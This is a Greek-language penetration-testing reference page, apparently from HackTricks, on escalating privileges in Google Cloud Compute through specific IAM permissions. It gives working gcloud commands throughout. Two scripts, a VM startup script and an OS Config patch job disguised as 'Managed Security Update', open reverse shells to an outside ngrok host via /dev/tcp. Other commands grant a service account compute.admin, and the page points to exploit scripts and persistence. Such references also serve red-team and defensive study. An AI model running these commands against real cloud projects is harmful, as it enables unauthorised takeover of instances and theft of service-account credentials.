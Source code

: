 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (δίκτυο) στο GCP, ελέγξτε:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Σημειώστε ότι για να εκτελέσετε όλες τις επιθέσεις ανύψωσης προνομίων που απαιτούν την τροποποίηση των μεταδεδομένων της παρουσίας (όπως η προσθήκη νέων χρηστών και SSH κλειδιών) είναι **αναγκαίο να έχετε δικαιώματα `actAs` πάνω στο SA που είναι συνδεδεμένο με την παρουσία**, ακόμη και αν το SA είναι ήδη συνδεδεμένο!

### `compute.projects.setCommonInstanceMetadata`

Με αυτή την άδεια μπορείτε να **τροποποιήσετε** τις πληροφορίες **μεταδεδομένων** μιας **παρουσίας** και να αλλάξετε τα **εξουσιοδοτημένα κλειδιά ενός χρήστη**, ή να **δημιουργήσετε** έναν **νέο χρήστη με δικαιώματα sudo**. Επομένως, θα μπορείτε να εκτελέσετε μέσω SSH σε οποιαδήποτε VM παρουσία και να κλέψετε τον GCP Service Account με τον οποίο εκτελείται η παρουσία.\
Περιορισμοί:

- Σημειώστε ότι οι GCP Service Accounts που εκτελούνται σε VM παρουσίες από προεπιλογή έχουν **πολύ περιορισμένο πεδίο**
- Θα χρειαστεί να είστε **σε θέση να επικοινωνήσετε με τον SSH** διακομιστή για να συνδεθείτε

Για περισσότερες πληροφορίες σχετικά με το πώς να εκμεταλλευτείτε αυτή την άδεια, ελέγξτε:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

Μπορείτε επίσης να εκτελέσετε αυτή την επίθεση προσθέτοντας νέο startup-script και επανεκκινώντας την παρουσία:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Αυτή η άδεια δίνει **τις ίδιες προνόμιες με την προηγούμενη άδεια** αλλά σε συγκεκριμένες περιπτώσεις αντί για ολόκληρο το έργο. **Οι ίδιες εκμεταλλεύσεις και περιορισμοί όπως στην προηγούμενη ενότητα ισχύουν**.

### `compute.instances.setIamPolicy`

Αυτού του είδους η άδεια θα σας επιτρέψει να **παραχωρήσετε στον εαυτό σας έναν ρόλο με τις προηγούμενες άδειες** και να κλιμακώσετε τα προνόμια εκμεταλλευόμενοι αυτές. Ακολουθεί ένα παράδειγμα προσθήκης `roles/compute.admin` σε έναν Λογαριασμό Υπηρεσίας:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

Αν **το OSLogin είναι ενεργοποιημένο στην περίπτωση**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στην περίπτωση. Δεν **θα έχετε δικαιώματα root** μέσα στην περίπτωση.

> [!TIP]
> Για να συνδεθείτε επιτυχώς με αυτή την άδεια μέσα στην VM περίπτωση, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνημμένο στη VM.

### **`compute.instances.osAdminLogin`**

Αν **το OSLogin είναι ενεργοποιημένο στην περίπτωση**, με αυτή την άδεια μπορείτε απλά να εκτελέσετε **`gcloud compute ssh [INSTANCE]`** και να συνδεθείτε στην περίπτωση. Θα έχετε **δικαιώματα root** μέσα στην περίπτωση.

> [!TIP]
> Για να συνδεθείτε επιτυχώς με αυτή την άδεια μέσα στην VM περίπτωση, πρέπει να έχετε την άδεια `iam.serviceAccounts.actAs` πάνω στο SA που είναι συνημμένο στη VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Είναι δυνατόν να **δημιουργήσετε μια εικονική μηχανή με έναν ανατεθειμένο Λογαριασμό Υπηρεσίας και να κλέψετε το token** του λογαριασμού υπηρεσίας αποκτώντας πρόσβαση στα μεταδεδομένα για να κλιμακώσετε τα δικαιώματα σε αυτόν.

Το exploit script για αυτή τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Αν έχετε τις άδειες **`osconfig.patchDeployments.create`** ή **`osconfig.patchJobs.exec`** μπορείτε να δημιουργήσετε μια [**εργασία patch ή ανάπτυξη**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Αυτό θα σας επιτρέψει να κινηθείτε οριζόντια στο περιβάλλον και να αποκτήσετε εκτέλεση κώδικα σε όλες τις υπολογιστικές περιπτώσεις εντός ενός έργου.

Σημειώστε ότι αυτή τη στιγμή **δεν χρειάζεστε άδεια `actAs`** πάνω στο SA που είναι συνημμένο στην περίπτωση.

Αν θέλετε να εκμεταλλευτείτε αυτό χειροκίνητα, θα χρειαστεί να δημιουργήσετε είτε μια [**εργασία patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **ή** [**ανάπτυξη**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Για μια εργασία patch εκτελέστε:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
Για να αναπτύξετε μια ανάπτυξη διορθώσεων:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Το εργαλείο [patchy](https://github.com/rek7/patchy) θα μπορούσε να έχει χρησιμοποιηθεί στο παρελθόν για την εκμετάλλευση αυτής της κακής ρύθμισης (αλλά τώρα δεν λειτουργεί).

**Ένας επιτιθέμενος θα μπορούσε επίσης να το εκμεταλλευτεί για επιμονή.**

### `compute.machineImages.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για την εικόνα υπολογιστή.

### `compute.snapshots.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για ένα στιγμιότυπο δίσκου.

### `compute.disks.setIamPolicy`

**Δώστε στον εαυτό σας επιπλέον δικαιώματα** για έναν δίσκο.

### Παράκαμψη Πεδίων Πρόσβασης

Ακολουθώντας αυτόν τον σύνδεσμο θα βρείτε μερικές [**ιδέες για να προσπαθήσετε να παρακάμψετε τα πεδία πρόσβασης**](../).

### Τοπική Κλιμάκωση Δικαιωμάτων σε GCP Compute instance

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## Αναφορές

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}

